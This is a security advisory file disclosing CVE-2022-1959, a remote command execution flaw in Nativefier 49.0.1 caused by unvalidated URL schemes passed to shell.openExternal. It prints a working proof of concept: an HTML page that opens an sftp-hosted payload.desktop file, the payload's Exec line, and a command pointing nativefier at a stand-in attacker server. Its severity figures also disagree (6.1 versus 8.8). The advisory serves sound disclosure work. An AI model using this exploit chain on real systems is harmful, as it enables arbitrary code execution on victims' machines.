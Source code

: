 ```yaml
---
slug: advisories/walker/
title: Nativefier 49.0.1 - RCE via malicious URI schemes
authors: Carlos Bello
writer: cbello
codename: walker
product: Nativefier 49.0.1
date: 2022-09-08 20:30 COT
cveid: CVE-2022-1959
severity: 6.1
description: Nativefier 49.0.1  -  RCE via malicious URI schemes
keywords: Fluid Attacks, Security, Vulnerabilities, Nativefier
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Nativefier 49.0.1 - RCE via malicious URI schemes      |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | Nativefier                                             |
| **Affected versions** | Version 49.0.1                                         |
| **State**             | Private                                                |
| **Release date**      | 2022-09-08                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

Nativefier version 49.0.1 allows an external attacker to execute
arbitrary commands remotely on any client that has used nativefier
to convert an infected web application into a desktop application.
This is made possible by the application not properly validating
the scheme/protocol of the external links it opens with the
shell.openExternal function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs:

* https://github.com/nativefier/nativefier/blob/60035a8e74e3794bac16fb5945780b9be514b164/app/src/helpers/windowEvents.ts#L62-L98

![](https://user-images.githubusercontent.com/51862990/189242160-4ef651cc-edcf-4e42-b4f3-8b01ff1cbf6b.png)

* https://github.com/nativefier/nativefier/blob/60035a8e74e3794bac16fb5945780b9be514b164/app/src/helpers/helpers.ts#L118-L163

![](https://user-images.githubusercontent.com/51862990/189242188-35d26936-a8da-4eef-9f98-f6f776c537d2.png)

* https://github.com/nativefier/nativefier/blob/60035a8e74e3794bac16fb5945780b9be514b164/app/src/helpers/helpers.ts#L169-L175

![](https://user-images.githubusercontent.com/51862990/189242216-7302a556-e9d3-47d4-ad4b-fb1345d553cd.png)

With these three screenshots we can demonstrate what was mentioned at
the beginning. Basically what the application is doing is sending to
shell.openExternal(url), any url that is not related to the origin of
the web application that was converted to a desktop application.

For example, if we execute the command:

```bash
nativefier 'http://cbelloatfluid.com'
```

And within that website there is a link pointing to http://something.com,
that link will be external, and therefore it will be opened with the
shell.openExternal function. Since the scheme/protocol of these links
is not validated, an attacker could infect legitimate web pages with
malicious JS code, so there will be potentially malicious links that
will result in remote code execution for any user who has used this
tool to generate the desktop version of the web page.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this distribution
because in its default configuration it executes the payload.desktop file
after mounting the remote location where the payload file is located.
In other Linux distributions by default these files are not executed once
the remote location is mounted.

Below I will provide you with support material so that you can understand
in greater depth what I have just explained:

* https://positive.security/blog/url-open-rce#windows-10-19042

## Exploitation

To exploit this vulnerability, you must host the following files on a server:

### exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            window.open("sftp://user@server/uploads/payload.desktop");
        </script>
    </body>
</html>
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```bash
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

The **exploit.html** file will be saved in the root folder of your apache
server, while the payload.desktop file will be uploaded to the root folder
of your sftp/ftp server. In my case, I set up both services on the same
server.

With all the above done, now the client would only have to execute the
following command:

```bash
nativefier 'http://attacker-server.com/exploit.html'
```

Recall that in a real scenario, an attacker would infect a legitimate web
application with malicious JS code. This scenario is much more common and
therefore the attacker would have a higher success rate of exploitation,
performing untargeted attacks.

## Evidence of exploitation

![RCE-nativefier](https://user-images.githubusercontent.com/51862990/189242082-e3099152-713a-4dea-ae0f-d36db4999bcb.gif)

## Our security police

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Nativefier 49.0.1

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/nativefier/nativefier>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed="2022-09-00"
  patched=""
  disclosure="2022-09-00">
</time-lapse>
